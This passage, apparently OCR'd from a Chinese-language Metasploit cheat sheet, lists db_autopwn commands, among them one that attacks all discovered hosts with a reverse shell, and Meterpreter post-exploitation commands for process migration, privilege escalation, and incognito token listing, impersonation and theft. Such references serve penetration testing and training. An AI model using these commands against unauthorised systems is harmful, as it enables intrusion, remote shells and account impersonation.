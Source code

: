 利用nmap并把所有扫描数据库存储到数据库中。

- db_autopwn -h

展示出db_autopwn命令的帮助信息。

- db_autopwn -p -r -e 

对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell。

- db_destroy 

删除当前数据库。

- db_destroy user:password@host:port/database

使用高级选项来删除数据库。

 

## 2.metapreter命令

- help

打开帮助

- run scriptname

运行meterpreter脚本，在scripts/meterpreter目录下可查看到所有脚本名。

- sysinfo

列出受控主机的系统信息。

- ls 

列出目标主机的文件和文件夹信息。

- use priv

加载特权提升扩展模块，来扩展meterpreter库。

- ps

显示所有运行进程以及关联的用户账户。

- migrate PID

迁移到一个指定的进程ID

- use incognito 

加载inconito功能（用来盗取目标主机的令牌或是假冒用户）

- list_tokens -u

列出目标主机用户组的可用令牌。

- impersonate_token DOMAIN_NAME\\USERNAME

假冒目标主机上的可用令牌。

- steal_token

盗窃给定进程的可用令牌并进行令牌假冒。
